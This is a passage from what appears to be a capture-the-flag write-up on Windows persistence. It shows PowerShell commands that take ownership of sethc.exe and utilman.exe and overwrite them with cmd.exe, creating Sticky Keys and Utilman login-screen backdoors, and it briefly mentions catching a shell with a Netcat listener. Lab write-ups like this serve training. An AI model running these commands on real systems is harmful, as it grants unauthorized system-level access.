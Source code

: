 ![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692397513689/c8c8a6db-5a5d-4ee6-ab35-76c1745f92d1.png){: .center-image }

Set up the `Netcat` listener, log out and then log back in to capture the shell. Grab `flag13.exe` from here.

### Backdooring the Login Screen Using Stickykeys

The following steps can be taken to create a backdoor on the Windows login screen using Stickykeys.

```powershell
takeown /f C:\Windows\System32\sethc.exe
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692397614244/adb843b4-df8d-4b68-ba87-8b69be9c4ba4.png){: .center-image }

```powershell
icacls C:\Windows\System32\sethc.exe /grant Administrator:F
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692397624217/bd4e58b2-e709-4ec7-8223-01ce61bac484.png){: .center-image }

```powershell
copy C:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692397633955/7c8894f0-fc4b-4a83-99c1-d4dc638be61c.png){: .center-image }

Grab `flag14.exe`:

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692398845196/fe90c8fe-c28e-4cf7-9e10-b505af5c1865.jpeg){: .center-image }

### Backdooring the Login Screen Using Utilman

The following steps can be taken to create a backdoor on the Windows login screen using Utilman.

```powershell
takeown /f C:\Windows\System32\utilman.exe
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692397718350/6fd8c81b-b9c6-4e4e-9a5b-11f945fba94d.png){: .center-image }

```powershell
icacls C:\Windows\System32\utilman.exe /grant Administrator:F
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692397730020/ba6b72d3-f70e-44b3-a21f-c18802f10447.png){: .center-image }

```powershell
copy C:\Windows\System32\cmd.exe C:\Windows\System32\utilman.exe
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692397745558/18df87c1-f1fe-4118-b4c2-463f0c2b0218.png){: .center-image }

Grab `flag15.exe`:

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692398897482/0f14f9f6-4a39-4ad7-ae48-0902078dbcba.jpeg){: .center-image }
